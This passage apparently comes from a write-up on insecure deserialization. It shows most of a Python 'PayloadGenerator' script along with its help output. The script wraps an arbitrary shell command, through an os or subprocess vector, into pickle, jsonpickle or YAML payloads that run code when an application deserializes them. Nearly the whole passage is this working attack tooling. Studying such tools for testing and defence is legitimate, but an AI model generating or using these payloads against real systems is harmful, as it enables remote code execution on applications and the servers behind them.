 ```python
        '-v', '--vector', required=False, choices=["os", "subprocess"], default="os",
        help='Save payload to file')
    parser.add_argument(
        '-f', '--format', required=True, choices=["pickle", "json", "yaml", "#"], default="#",
        help='Serialization archive format')
    parser.add_argument(
        '-c', '--command', type=str, required=False, default=None, help='Command for the payload')

    args = parser.parse_args()

    if args.format == "#":
        print(f"[*] The following format are accepted:")
        print_available_formats()
        sys.exit()
    if not args.command:
        print(f"[-] A command (-c) is required to generate the payload")
    command = args.command

    print(f"[+] Generating serialized object for:")
    print(f"    {command}")
    cls = Payload(command, args.vector)

    if args.format == "pickle":
        if args.save:
            with open("payload.bin", "wb") as payload:
                payload.write(_pickle.dumps(cls))
        else:
            print(f"[+] Final Payload:\n    {_pickle.dumps(cls)}")
    elif args.format == "json":
        if args.save:
            with open("payload.json", "w") as payload:
                payload.write(jsonpickle.encode(cls))
        else:
            print(f"[+] Final Payload:\n    {jsonpickle.encode(cls)}")
    elif args.format == "yaml":
        if args.save:
            with open("payload.yml", "w") as payload:
                yaml.dump(cls, payload)
        else:
            p = yaml.dump(cls).replace('\n', '\n    ')
            print(f"[+] Final Payload:\n    {p}")
    else:
        sys.exit()
```

The functions provided by this simple tool can be inpected using the help:

```bash
$ python PayloadGenerator.py -h
usage: PayloadGenerator.py [-h] [-d] [-s] [-v {os,subprocess}] -f {pickle,json,yaml,#} [-c COMMAND]

PayloadGenerator - A simple serialization payload generator

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug messages
  -s, --save            Save payload to file
  -v {os,subprocess}, --vector {os,subprocess}
                        Save payload to file
  -f {pickle,json,yaml,#}, --format {pickle,json,yaml,#}
                        Serialization archive format
  -c COMMAND, --command COMMAND
                        Command for the payload

```